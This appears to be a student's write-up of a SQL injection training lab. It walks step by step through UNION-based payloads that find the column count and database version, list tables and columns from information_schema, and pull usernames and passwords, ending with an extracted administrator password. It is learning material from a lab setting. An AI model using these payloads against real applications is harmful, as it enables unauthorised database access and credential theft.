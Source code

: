 # Lab 05 – SQLi: Listing the database contents (non-Oracle)

Goal:  
use SQL injection to enumerate the database contents on a non-Oracle backend (e.g., MySQL/MSSQL).  
specifically → extract table names and column names by querying the `information_schema` tables.

What I did: 
- first i tested if its vulnerable to SQL injection by just typing ' in category
- intercepted the request that sets the product category filter in Burp & sent it to repeater 
- determine the number of columns using order by clause, confirmed it was returning 2 columns

here’s the screenshot showing the number of columns test worked:
![Number of columns result](../images/sqli/04-db-version-mysql-mssql/numberofcol.png)

- find the data type for the columns by using: UNIION SELECT NULL, NULL --
  i tested UNION SELECT 'a', 'b' -- and it gave 200 OK = both colums accept type string
  
- figure out the database version since we dont know the database software we are gonna depend on which one gives us 200 OK
1- ' UNION SELECT @@version, NULL -- 500 internel server error -> not microsoft
2- ' UNION SELECT version(), NULL -- 200 OK -> so now we know its PostgreSQL (PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.4))
  
- output the table names in the database
' UNION SELECT table_name, NULL FROM information_schema.tables --

users_dbqlkm

- output the column names of the table 
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_dbqlkm' --

username_qbetwu
password_vbkewi

- output the usernames and passwords
' UNION SELECT username_qbetwu, password_vbkewi FROM users_dbqlkm--

- now we can see administrator and password: o00ap5pgao7vp0cq3ku1 and thats it !

Notes:
this one felt smoother because I understood the UNION flow better after Lab 03.
